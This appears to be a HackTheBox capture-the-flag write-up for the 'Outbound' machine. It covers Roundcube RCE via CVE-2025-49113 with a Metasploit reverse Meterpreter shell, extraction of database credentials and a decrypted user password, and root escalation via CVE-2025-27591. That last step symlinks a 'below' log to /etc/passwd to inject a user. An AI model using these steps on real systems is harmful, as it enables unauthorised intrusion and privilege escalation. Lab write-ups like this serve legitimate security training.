



[Outbound](https://app.hackthebox.com/machines/Outbound) is a hackthebox linux machine that may or may not have something to do with Outbound messages. Only way to find out is to actually hack the machine.

The machines description has given us the following this time around:
```
As is common in real life pentests, you will start the Outbound box with credentials for the following account tyler / LhKL1o9Nm3X2
```

Let's start with the usual Nmap scan.
```
$ nmap -A -T4 -v outbound.thm
...
Nmap scan report for outbound.htb (10.10.11.77)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
```

Testing out our provided credentials on SSH didn't get us anywhere so we can rule that out fairly quickly for now.

We'll also setup another full-range and UDP scan in the background. Adding the mail subdomain to our host sends us to a Roundcube Webmail instance. I was able to login using the provided credentials here.



Clicking "About", I was able to gather that this instance is running Roundcube version 1.6.10. A quick search shows us that this version is vulnerable to [CVE-2025-49113](https://www.offsec.com/blog/cve-2025-49113/), which is a flaw in how roundcube deserializes PHP objects.

Thankfully, Metasploit has a module that will allow us to exploit this vulnerability. Setting it up:

```
msf exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > exploit
[*] Started reverse TCP handler on <attacker>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Extracted version: 10610
[+] The target appears to be vulnerable.
[*] Fetching CSRF token...
[+] Extracted token: aS22LrbPL7oWOArEuzozAmJnK188WDfg
[*] Attempting login...
[+] Login successful.
[*] Preparing payload...
[+] Payload successfully generated and serialized.
[*] Uploading malicious payload...
[+] Exploit attempt complete. Check for session.
[*] Sending stage (3090404 bytes) to 10.10.11.77
[*] Meterpreter session 1 opened (<attacker>:4444 -> 10.10.11.77:54698) at 2025-09-18 10:52:49 -0400

meterpreter > 
```

We managed to get a session as `www-data`. through some further enumeration, I found that:
+ We are running inside a docker container.
+ The system has three users: Jacob, Mel, and tyler,
+ The docker container is listening in on 80, 110, 143, 993, and 995 on all interfaces, as well as 25 and 3306 locally.
+ Roundcube is accessing a MySQL database via `roundcube:RCDBPass2025` as well as a DES key: `rcmail-!24ByteDESkey*Str`

We'll look at the former later *if* we need to. For now, let's focus on seeing what we can extract out of the database. Some digging shows that we might be able to extract a few passwords from the `session` table in the database.



Seems like the entries are base64-encoded. after decoding we are given `jacob`'s session. This also includes his encrypted password. Setting up [this](https://github.com/rafelsusanto/rcube-password-decryptor) python script I was able to extract jacob's password



testing it out with `su jacob`:

```
$ su jacob
Password:

$ whoami
jacob
```

looking into jacob's home directory, we find his inbox which houses two things: Another password, and a message from mel:

```
We have been experiencing high resource consumption on our main server.
For now we have enabled resource monitoring with Below and have granted you privileges to inspect the the logs.
Please inform us immediately if you notice any irregularities.

Thanks!

Mel
```

The provided password allows us to SSH into the machine directly rather than the docker container. And from there, we are able to obtain the user flag.

for Privilege Escalation, let's start with the simplest possible vector: `sudo -l`

```
$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*,
        !/usr/bin/below --debug*, !/usr/bin/below -d*
```

[below](https://github.com/facebookincubator/below) is a resource monitor with support for "time-travelling". Most notably, the one on our system is running below v0.8.0, which is vulnerable to [CVE-2025-27591](https://nvd.nist.gov/vuln/detail/CVE-2025-27591). Mainly, the fact that `/var/log/below` is world-writable makes it susceptible to symlink attacks. Making the script to attack this vulnerability is actually pretty simple. But, I'm a lazy bastard. So I used this here [script](https://github.com/obamalaolu/CVE-2025-27591/blob/main/CVE-2025-27591.sh). SCP'ing it into jacob's home directory and executing it:

```
jacob@outbound:~$ ./exploit.sh 
[*] CVE-2025-27591 Privilege Escalation Exploit
[*] Checking sudo permissions...
[*] Backing up /etc/passwd to /tmp/passwd.bak
[*] Generating password hash...
[*] Creating malicious passwd line...
[*] Linking /var/log/below/error_root.log to /etc/passwd
[*] Triggering 'below' to write to symlinked log...
[*] Injecting malicious user into /etc/passwd
[*] Try switching to 'haxor' using password: hacked123
Password: 
haxor@outbound:/home/jacob# ls /root
root.txt
haxor@outbound:/home/jacob# cat /root/root.txt
<redacted>
```

This was a rather straightforward machine. But, it did remind me how easy it is to fall into rabbit holes thanks to the possibility of a container escape. Regardless, a nice 5-min hack.